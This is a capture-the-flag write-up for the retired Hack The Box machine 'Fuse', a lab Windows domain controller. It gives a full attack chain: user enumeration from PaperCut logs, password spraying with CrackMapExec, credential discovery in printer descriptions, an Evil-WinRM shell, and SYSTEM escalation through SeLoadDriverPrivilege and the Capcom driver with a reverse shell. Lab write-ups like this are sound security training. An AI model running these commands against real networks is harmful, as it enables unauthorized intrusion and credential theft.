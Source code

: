 # Fuse

This is the write-up for the box Fuse that got retired at the 31st October 2020.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.193    fuse.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/fuse.nmap 10.10.10.193
```

```
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-10-30 14:17:18Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: FABRICORP)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: fabricorp.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FUSE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

According to the ports, this is an **Active Directory** domain controller and the hostname _fabricorp.local_ should be put into the _/etc/hosts_ file.

## Checking HTTP (Port 80)

When trying to browse to the web page, it wants to forward to the domain name _fuse.fabricorp.local/papercut/logs/html/index.htm_ but can't reach it.
It has to be put into the _/etc/hosts_ file and access is granted.

The web page shows **Print Logs** from the print management software [PaperCut](https://www.papercut.com/):

![PaperCut Print Logger](fuse_web-1.png)

The _View_ button shows logs for printed documents and there are usernames and client names that may be useful:

| User | Client |
| ---- | ------ |
| pmerton | JUMP01 |
| tlavel | LONWK015 |
| sthompson | LONWK019 |
| bhult | LAPTOP07 |
| administrator | FUSE |

The document name of the logs from _29 May 2020_ is called _"New Starter - bnielson - Notepad"_ and _bnielson_ could also be a potential username.

Lets put all of those usernames into a file and use [kerbrute](https://github.com/ropnop/kerbrute) to check if they are valid:
```
./kerbrute userenum --dc 10.10.10.193 -d fabricorp.local users.list
```

All of the usernames are valid, so a custom wordlist could be useful to test password against these users.

## Credential Gathering

The most used passwords in companies are often the company name and seasons:
```
Fabricorp
Summer
Winter
```

Using **Hashcat** to apply a rule to the wordlist:
```
hashcat --force wordlist.list -r /usr/share/hashcat/rules/best64.rule --stdout > wordlist_rule.list
```

Removing all words that are shorter than 8 characters:
```
sed -e '/^.\{,7\}$/d' wordlist_rule.list > wordlist_rule_short.list
```

Testing the created list of passwords against the usernames with **CrackMapExec**:
```
crackmapexec smb 10.10.10.193 -u users.list -p wordlist_rule_short.list
```
```
SMB    10.10.10.193    445    FUSE     [-] fabricorp.local\tlavel:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
```

The user _tlavel_ seems to have the password _Fabricorp01_ and the password has to be changed:
```
smbpasswd -U tlavel -r 10.10.10.193

Old SMB password: Fabricorp01
New SMB password: NewPass123
Retype new SMB password: NewPass123
Password changed for user tlavel on 10.10.10.193.
```

Connecting to RPC client with the new password:
```
rpcclient -U tlavel 10.10.10.193
```

> NOTE: After setting the new password, the connection to RPC has to be done fast as the password is reset every minute

Gathering more users:
```
rpcclient $> enumdomusers

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
```

As there are two service accounts for printing and the web server is printer management, there may be information in the printer objects:
```
rpcclient $> enumprinters

name:[\\10.10.10.193\HP-MFT01]
description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
```

It contains another password that can be tested against all users:
```
crackmapexec smb 10.10.10.193 -u users.list -p '$fab@s3Rv1ce$1'

SMB    10.10.10.193    445    FUSE      [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1
```

The password works for the user _svc-print_. Checking if **WinRM** connection is possible:
```
crackmapexec winrm 10.10.10.193 -u svc-print  -p '$fab@s3Rv1ce$1'

WINRM    10.10.10.193    5985   FUSE      [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
```

Using **Evil-WinRM** to get a shell connection:
```
evil-winrm.rb -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'
```

## Privilege Escalation

When checking the users permissions, it shows that the _SeLoadDriverPrivilege_ privilege is set:
```
whoami /all
```
```
Privilege Name                Description                    State
============================= ============================== =======
SeLoadDriverPrivilege         Load and unload device drivers Enabled
```

With this permission, it is possible to load drivers into the kernel and escalate privileges that way.
The most common driver to load is the **Capcom driver** explained by [FuzzySecurity](https://www.fuzzysecurity.com/tutorials/28.html) that should be downloaded from their [GitHub repository](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys).

This [article from Tarlogic](https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) explains the steps to exploit _SeLoadDriverPrivilege_.
They provide a Proof of Concept driver on their [GitHub repository](https://github.com/TarlogicSecurity/EoPLoadDriver/) that we will use.

Compiling the C++ file _eoploaddriver.cpp_ in **Visual Studio**:
```
New Project --> Visual C++ --> Console App --> Paste code into cpp file --> Rebuild Solution
```

Another necessary tool is the utility from [this repository](https://github.com/tandasat/ExploitCapcom) to exploit _Capcom.sys_.

Compiling the project _ExploitCapcom.sln_ in **Visual Studio**:
```
File --> Open --> Project/Solution --> Rebuild Solution
```

Modifying the code in _ExploitCapcom.cpp_ to not execute `cmd.exe` but our own binary:
```
(...)
Line 410: TCHAR CommandLine[] = TEXT("C:\\windows\\temp\\shell.exe");
(...)
```

The project has to be compiled again to have the modified version.

This [Simple_Rev_Shell from BankSecurity](https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc) will be used as the executable to gain a reverse shell connection.

Compiling the reverse shell binary on a Windows box:
```
C:\Windows\Microsoft.Net\Framework64\v4.0.30319\csc.exe /t:exe /out:c:\windows\temp\shell.exe "c:\HP Universal Print Driver\shell.cs"
```

This results in four files that I will upload to the box in _C:\Windows\Temp_.
- Capcom.sys
- EoPLoadDriver.exe
- ExploitCapcom.exe
- shell.exe

Executing _EoPLoadDriver.exe_ to create the _Capcom.sys_ driver in the registry:
```
.\EoPLoadDriver.exe System\CurrentControlSet\NewDriver c:\windows\temp\Capcom.sys
```
```
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\NewDriver
NTSTATUS: 00000000, WinError: 0
```

Executing _ExploitCapcom.exe_ to exploit the new driver and execute _shell.exe_:
```
.\ExploitCapcom.exe
```

After executing it, the listener on my IP and port 9001 starts a reverse shell as _SYSTEM_!
